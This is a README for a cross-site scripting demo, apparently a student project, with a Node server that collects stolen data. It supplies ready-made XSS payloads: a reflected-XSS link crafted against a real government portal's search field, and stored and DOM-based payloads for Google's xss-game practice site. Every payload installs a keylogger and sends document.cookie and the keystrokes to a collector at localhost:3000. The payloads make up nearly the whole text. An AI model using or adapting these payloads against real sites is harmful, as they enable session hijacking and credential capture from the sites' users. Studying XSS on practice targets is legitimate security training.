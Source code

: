 # TTC-Connect XSS Demo

## Instructions

Install necessary packages
```
npm install
```

Run application server
```
node app.js
```

Use the following link for reflected xss attack
[Injected TT Connect Link](http://www.ttconnect.gov.tt/gortt/portal/ttconnect/!ut/p/a1/04_Sj9CPykssy0xPLMnMz0vMAfGjzOK9A40MTD0tjQ0sfLycDYyCfM1CLf0MDA3cDYEKIpEV-Ae5uwEVuJoaeniHGRsYGBCn3wAHcCSoP1w_ClWJf6CBJVCJp6Grgam3sbuXAYYCTCeCFeBxQ0FuaIRBpqciAKjdE-c!/dl5/d5/L2dBISEvZ0FBIS9nQSEh/?searchKeyword=++++%3Cimg+hidden+src%3D%27x%27+onerror%3D%22document.onkeypress%3Dfunction%28e%29%7B+var+xhr+%3D+new+XMLHttpRequest%28%29%3B+xhr.open%28%27POST%27%2C+%27http%3A%2F%2Flocalhost%3A3000%2Fcandy%3Fk%3D%27%2BString.fromCharCode%28e.which%29%29%3B+xhr.setRequestHeader%28%27Content-Type%27%2C+%27application%2Fjson%27%2C+%27Access-Control-Allow-Origin%27%2C%27localhost%3A3000%27%29%3B+xhr.send%28JSON.stringify%28%7Bdomain%3Adocument.domain+%2C+cookie%3A+document.cookie%7D%29%29%7D%22%2F%3E&ctl00%24HomeSearchBar1%24HiddenField1=&selectedCategory=entireSite&ctl00%24HomeSearchBar1%24submit_button.x=0&ctl00%24HomeSearchBar1%24submit_button.y=0)

Type something on the site or make any key strokes

Open sessiondata.txt to see logged information


Use the following link for stored xss attack
[Vulnerable Forum](https://xss-game.appspot.com/level2/frame)

Submit the following script, the script will executed everything your refresh as its persistent
```
 <img hidden src='x' onerror="document.onkeypress=function(e){ var xhr = new XMLHttpRequest(); xhr.open('POST', 'http://localhost:3000/candy?k='+String.fromCharCode(e.which)); xhr.setRequestHeader('Content-Type', 'application/json', 'Access-Control-Allow-Origin','localhost:3000'); xhr.send(JSON.stringify({domain:document.domain , cookie: document.cookie}))}"/>

```

Use the following link for dom-based xss attack
[Injected TT Connect Link](https://xss-game.appspot.com/level1/frame?query=%3Cimg+hidden+src%3D%27x%27+onerror%3D%22document.onkeypress%3Dfunction%28e%29%7B+var+xhr+%3D+new+XMLHttpRequest%28%29%3B+xhr.open%28%27POST%27%2C+%27http%3A%2F%2Flocalhost%3A3000%2Fcandy%3Fk%3D%27%2BString.fromCharCode%28e.which%29%29%3B+xhr.setRequestHeader%28%27Content-Type%27%2C+%27application%2Fjson%27%2C+%27Access-Control-Allow-Origin%27%2C%27localhost%3A3000%27%29%3B+xhr.send%28JSON.stringify%28%7Bdomain%3Adocument.domain+%2C+cookie%3A+document.cookie%7D%29%29%7D%22%2F%3E)

Type something on the site or make any key strokes

Open sessiondata.txt to see logged information



